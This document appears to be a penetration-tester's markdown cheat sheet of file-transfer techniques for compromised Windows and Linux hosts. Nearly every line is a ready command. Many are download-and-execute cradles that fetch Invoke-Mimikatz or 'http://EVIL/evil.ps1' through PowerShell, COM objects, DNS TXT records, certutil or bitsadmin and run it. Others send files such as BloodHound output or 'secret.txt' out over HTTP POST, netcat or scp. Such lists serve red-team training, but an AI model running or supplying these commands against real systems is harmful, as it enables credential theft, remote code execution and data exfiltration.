


# Ultimate File Transfer List

## powershell.exe

### powershell proxy authentication

`$Client = New-Object -TypeName System.Net.WebClient`

`$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials`

`IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`


### Invoke-WebRequest / Invoke-RestMethod

`Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"`

`Invoke-RestMethod "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"`


### Invoke-WebRequest / Invoke-RestMethod POST base64 data

`nc -lvnp 443`

`$Base64String = [System.convert]::ToBase64String((Get-Content -Path 'c:/temp/BloodHound.zip' -Encoding Byte))`
`Invoke-WebRequest -Uri http://10.10.10.10:443 -Method POST -Body $Base64String`

`echo <base64> | base64 -d -w 0 > bloodhound.zip `


### Copy-Item 

`Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session`


### Set-Content 

`Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}`


## Base64 Encode/Decode

#### Encode

`[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\TEMP\admin.kirbi"))`

#### Decode

`[IO.File]::WriteAllBytes("admin.kirbi", [Convert]::FromBase64String("<base64>"))`

## Download Cradles

from @harmj0y:

* #### powershell 3.0+ download and execute (bypass IE firstrun check)

     `IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)`


* #### powershell (any version)

     `powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"`


     `(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")`


* #### hidden IE com object

     `$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r`


* #### Msxml2.XMLHTTP COM object

     `$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText`


* #### WinHttp COM object

     `[System.Net.WebRequest]::DefaultWebProxy`
     `[System.Net.CredentialCache]::DefaultNetworkCredentials`
     `$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText`


> DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
> The code to execute needs to be a base64 encoded string stored in a TXT record

`IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))`


from @subtee:

```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

Links:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## copy / xcopy / robocopy


```po
xcopy \\10.10.10.132\share\nc.exe nc.exe
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
```

## Map / Mount Drives


```
net use Q: \\10.10.10.132\share
pushd \\10.10.10.132\share
mklink /D share \\10.10.10.132\share
smbclient //10.10.10.132/share -U username -W domain
```

## bitsadmin.exe


```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```


PowerShell also enables interaction with BITS, and enables file downloads and uploads, supports credentials and can use specified proxy servers.

Download: 

```powershell
Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```


Upload, specifying a proxy server:


```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```


## scp / pscp.exe

Upload:

`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`

Download:

`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`

Upload:

`pscp.exe C:\Users\Public\info.txt user@target:/tmp/info.txt`

Download: 

`pscp.exe user@target:/home/user/secret.txt C:\Users\Public\secret.txt`


## certutil.exe

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1`

Links:

https://twitter.com/subtee/status/888122309852016641?lang=en


`certutil.exe -verifyctl -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1`

Links:

https://twitter.com/egre55/status/1087685529016193025


## base64

`cat binary | base64 -w 0`

`echo <base64> | base64 -d > binary`


## certutil.exe base64

`certutil.exe -encode mimikatz.exe mimikatz.txt`

`certutil.exe -decode mimikatz.txt mimikatz.exe`


## openssl base64

`openssl.exe enc -base64 -in mimikatz.exe -out mimikatz.txt`

`openssl.exe enc -base64 -d -in mimikatz.txt -out mimikatz.exe`


## WebDAV Downloaders


### makecab.exe

`C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab`


### esentutl.exe

`C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o`


### extrac32.exe

`C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt`


### print.exe

`C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe`

Links:

https://twitter.com/Oddvarmoe/status/984749424395112448

for a more complete list of WebDAV downloaders check the LOLBINS/LOLBAS project created by @api0cradle:
https://github.com/LOLBAS-Project/LOLBAS


## Netcat

`nc -nlvp 8000 > mimikatz.exe`

`nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe`


## OpenSSL

`openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`

`openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/mimikatz.exe`

`openssl s_client -connect 10.10.10.10:80 -quiet > mimikatz.exe`


## Web Browser

`:)`


## wget

`wget http://10.10.10.10:80/info.txt -O /tmp/info.txt`


## cscript wget.js

> cscript /nologo wget.js http://10.10.10.10/mimikatz.exe

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```

Links:

https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl


## cscript wget.vbs

> cscript wget.vbs http://10.10.10.10/mimikatz.exe mimikatz.exe

```
Set args = WScript.Arguments

Url = args.Item(0)
File = args.Item(1)

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
 
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile File, 2 '//overwrite
end with
```

Links:

https://staheri.com/my-blog/2013/january/vbscript-download-file-from-url/


## cURL

`curl -o /tmp/info.txt http://10.10.10.10:80/info.txt`


## Remote Desktop

### rdesktop

`rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'`

### tsclient.exe




```
copy \\tsclient\c\temp\mimikatz.exe .
```


## SMB

`smbclient //10.10.10.10/share -U username -W domain`

`net use Q: \\10.10.10.10\share`

`xcopy \\10.10.10.10\share\mimikatz.exe mimikatz.exe`

`pushd \\10.10.10.10\share`

`mklink /D share \\10.10.10.10\share`


## FTP

> ftp -s:script.txt

```
open 10.10.10.10
anonymous
anonymous
lcd c:\uploads
get info.txt
quit
```

Links:

https://www.jscape.com/blog/using-windows-ftp-scripts-to-automate-file-transfers


## TFTP

`tftp -i 10.10.10.10 get mimikatz.exe`


## debug.exe

> Compress file

`upx -9 nc.exe`

> Disassemble

`wine exe2bat.exe nc.exe nc.txt`

> Paste contents of nc.txt into a shell to create nc.exe 

Links:

https://xapax.gitbooks.io/security/content/transfering_files_to_windows.html


## Bash (/dev/tcp)


```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

## PHP

### file_get_contents() 

`php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

### fopen() 

`php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`


`php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'`


`php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`


## Python

```python
# Python 2

import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")

# Python 3

python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
```


## Ruby


`ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`


## Perl


`perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`


## Go


```go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
```


## Web Servers


```bash
python -m SimpleHTTPServer 80
python3 -m http.server 80
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```


With administrative access to a Windows machine, IIS can be installed. 

This can be done in the GUI:

 

Or in the CLI:

`Add-WindowsFeature Web-Server, Web-Mgmt-Tools`

The above might not work on some versions of Windows. In that case, try the following:  

`Dism.exe /online /enable-feature /featureName:IIS-DefaultDocument /All`